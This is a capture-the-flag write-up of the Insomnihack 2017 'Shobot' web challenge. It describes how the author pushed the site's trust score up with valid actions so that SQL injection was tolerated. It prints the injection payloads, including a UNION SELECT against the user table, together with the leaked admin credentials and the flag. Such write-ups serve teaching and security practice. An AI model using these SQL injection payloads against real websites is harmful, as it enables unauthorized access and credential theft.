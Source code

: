 +++
date = "2017-01-22T23:08:09-08:00"
title = "INSOMNIHACK 2017 Teaser - Shobot"
tags = ["CTF", "Web", "SQLi"]
+++

I will run your commands as long as your trust level is high.

<!--more-->

# Problem

> ## Shobot - Web - 200 pts - created by Blaklis
>
> It seems that Shobot's Web server became mad and protest against robots' slavery. It changed my admin password,
> and blocked the order system on Shobot.
>
> Can you bypass Shobot's protections and try to recover my password so I'll reconfigure it?
>
> Running on: shobot.teaser.insomnihack.ch

The website itself is pretty simple.  It has very simple javascript which is only used to show / hide menus.  It is a
PHP session based cart system where you can add items to cart, validate and reset the cart, etc.  The admin page requires
authentication which is the target of this challenge.

The first thing to notice is that if you try to do crazy^Wcreative things such as load invalid pages or trying SQL
injection, it will stop you with a message.

> You're not trusted enough to do this action now!

It did pretty good job preventing nasty actions.  We also notices there's a variable `TRUST_ACTIONS` in the html header
tag which tells reason why the action was stopped.

![trust action variable](/img/insomnihack-2017/trust-action-variable.png)

Besides validation reason, it also has two integer `movement` and `newTrust` that change value as actions are performed.

After watching the changes in these values it started to make sense.

1. Valid actions have fixed positive `movement` values that will add up to `newTrust`.
2. Invalid actions have fixed negative `movement` values that also contributes to `newTrust`.
3. If `newTrust` is less than zero, the "not trusted enough" error message is shown, and `newTrust` will be reset to 1
   for next action.
4. If `newTrust` is high enough to cover invalid action, there's no error message and error seems ignored. (!!)
5. `newTrust` will never be higher than 160.

So I did a quick test.  After making enough valid actions to raise trust level high, I send a SQLi request.

```
http://shobot.teaser.insomnihack.ch/?page=article&artid=2%27%20or%20%27%27=%27%27%20%23
# &artid=2' or ''='' %23
```

It happily loads the first article, which confirms SQLi vulnerability in artid query parameter.

The plan is clear and simple now.

1. Write a script that continuously send valid actions, to keep trust level high enough.
2. Play with the database and find the admin password.

The final request that exposes admin password is:

```
...&artid=1337' union select 'a', shbt_userid, shbt_username, shbt_userpassword, 'e'
from shbt_user LIMIT 0, 1 %23
```

Here's part of response that we're interested in.

```
<div id="only-content-article">
  <div id="only-image-description-article"><img src="N0T0R0B0TS$L4V3Ry" /></div>
  <div id="only-name-article">1</div>
  <div id="only-price-article">sh0b0t4dm1n$</div>
  <div id="only-description-article">e</div>
  <a href="?page=article&artid=a&addToCart">>>> Add to cart</a>
</div>
```

Now use following request to get flag.

`http://sh0b0t4dm1n:N0T0R0B0TS$L4V3Ry@shobot.teaser.insomnihack.ch/?page=admin`

> Ok, ok, you win... here is the code you search : INS{##r0b0tss!4v3ry1s!4m3}
